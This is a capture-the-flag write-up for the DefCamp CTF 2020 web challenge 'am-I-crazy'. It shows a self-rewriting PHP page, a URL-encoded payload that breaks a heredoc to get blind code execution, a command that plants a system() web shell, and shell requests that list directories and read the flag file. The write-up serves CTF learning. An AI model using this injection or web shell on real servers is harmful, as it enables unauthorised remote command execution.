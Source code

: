DefCamp CTF 2020 – am-I-crazy
Category: web
Points: ?
Challenge
You might see but you cannot feel.

Flag format: CTF{sha256}

The challenge was proposed by BIT SENTINEL.

35.198.135.192:31428

Solution
The page will show the following HTML code.

<!DOCTYPE html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>AM-I-CRAZY</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">

  </head>

  <body>

    <div class="container">
      

      <div class="jumbotron">
        <h1 class="display-3">AM I CRAZY</h1>
        <p class="lead">Use a random password and the bellow button to generate or restore to the initial state the challenge.
        <form method="POST" action="/">
            <div class="form-group" style=""><label>Password:</label><input pattern=".{8,}" name="password" type="password" class="form-control" style="display: block; position: static; float: none;" required></div></p>
            <p><button type="submit" class="btn btn-lg btn-success" href="#" role="button">Generate</button></p>
        </form>
      </div>


    </div> <!-- /container -->
  

</body>
</html>
You have to insert a password with at least 8 chars.

Inserting 8 as will open the following URL http://35.198.103.37:31239/secrets/64f79ab242648e5c493c6af52ee4469a/index.php with the following content.

10 <?=
define('WORKING_DIRECTORY', getcwd());

$var = <<<xd
0
xd;

echo $var;

register_shutdown_function(function() {
    chdir(WORKING_DIRECTORY);
    if (empty($_GET['tryharder'])) {
        $_GET['tryharder'] = 0;
        show_source(__FILE__);
    }
    if (strlen($_GET['tryharder']) > 15){
        $_GET['tryharder'] = 0;
    }
    $contents = file_get_contents(__FILE__);
    $search_pattern = '/\$var = <<<xd\s*(.*)\s*xd/im';
    preg_match($search_pattern, $contents, $matches);
    
    $new_contents = preg_replace_callback($search_pattern, function($matches) {
        return str_replace($matches[1], $_GET['tryharder'], $matches[0]);
    }, $contents);
    file_put_contents(__FILE__, $new_contents, LOCK_EX);
}); 
After the button press, you are redirected to a page like the following URL: /secrets/3db406bb8ed1399d75a88f31b9aac730/index.php

Here you can specify a value for the tryharder parameter.

GET /secrets/3db406bb8ed1399d75a88f31b9aac730/index.php?tryharder=<your_value_here> HTTP/1.1
Host: 35.242.253.155:30574
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://35.242.253.155:30574/
Upgrade-Insecure-Requests: 1
A payload can be the following, in order to use code injection to break the heredoc and obtain a blind RCE.

xd;
`$_GET[0]`;
Payload must be URL-encoded.

%78%64%3B%0A%60%24%5F%47%45%54%5B%30%5D%60%3B
Sending it, the page will become the following.

1 <?=
define('WORKING_DIRECTORY', getcwd());

$var = <<<xd
xd;
`$_GET[0]`;
xd;

echo $var;

register_shutdown_function(function() {
    chdir(WORKING_DIRECTORY);
    if (empty($_GET['tryharder'])) {
        $_GET['tryharder'] = 0;
        show_source(__FILE__);
    }
    if (strlen($_GET['tryharder']) > 15){
        $_GET['tryharder'] = 0;
    }
    $contents = file_get_contents(__FILE__);
    $search_pattern = '/\$var = <<<xdxd;
`$_GET[0]`;xd/im';
    preg_match($search_pattern, $contents, $matches);
    
    $new_contents = preg_replace_callback($search_pattern, function($matches) {
        return str_replace($matches[1], $_GET['tryharder'], $matches[0]);
    }, $contents);
    file_put_contents(__FILE__, $new_contents, LOCK_EX);
});
Using the blind RCE, you can execute a command to create another PHP page with a more useful web shell. For example, the following code can be used.

echo 'Output:<br /><code><?php echo system($_GET[0]);?></code>' > shell.php
Payload must be URL-encoded.

%65%63%68%6F%20%27%4F%75%74%70%75%74%3A%3C%62%72%20%2F%3E%3C%63%6F%64%65%3E%3C%3F%70%68%70%20%65%63%68%6F%20%73%79%73%74%65%6D%28%24%5F%47%45%54%5B%30%5D%29%3B%3F%3E%3C%2F%63%6F%64%65%3E%27%20%3E%20%73%68%65%6C%6C%2E%70%68%70
Now you have a simpler web shell to use that returns the output of executed commands. Commands are passed via GET 0 URL parameter.

With this you can discover where the flag is.

http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=ls%20-al%20../../

Output:
total 56
drwxrwxrwx 1 www-data www-data  4096 Dec  6 12:25 .
drwxr-xr-x 1 root     root      4096 Sep 12  2019 ..
-rw-r--r-- 2 www      www          2 Dec  6 10:57 apache2.pid
-rw-rw-r-- 1 root     root       153 Dec  1 08:31 flag.php
lrwxrwxrwx 1 www      www          6 Dec  6 12:25 html -> l/html
-rw-rw-r-- 1 root     root      2692 Dec  1 08:31 index.php
drwxrwxr-x 1 www      www      24576 Dec  6 19:18 secrets
drwxrwxr-x 1 www      www      24576 Dec  6 19:18 secrets
You can copy the flag file in the current directory.

http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=cp%20../../flag.php%20.

http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=ls%20-al

Output:
total 44
drwxr-xr-x 2 www www  4096 Dec  6 19:35 .
drwxrwxr-x 1 www www 24576 Dec  6 19:18 ..
-rw-r--r-- 1 www www   153 Dec  6 19:35 flag.php
-rw-r--r-- 1 www www   770 Dec  6 19:31 index.php
-rw-r--r-- 1 www www    57 Dec  6 19:31 shell.php
-rw-r--r-- 1 www www    57 Dec  6 19:31 shell.php
And print the flag file content.

http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=cat%20flag.php

Output:
<?php

echo "Try harder!";

if (1 == 0) {
    echo "ctf{d067ddd00ba4129e83898758ac321533f392364cfaca7967d66791d9d08823bb}";
}

?>
<!-- Try harder! x2 --><!-- Try harder! x2 -->
The flag is the following.

CTF{d067ddd00ba4129e83898758ac321533f392364cfaca7967d66791d9d08823bb}
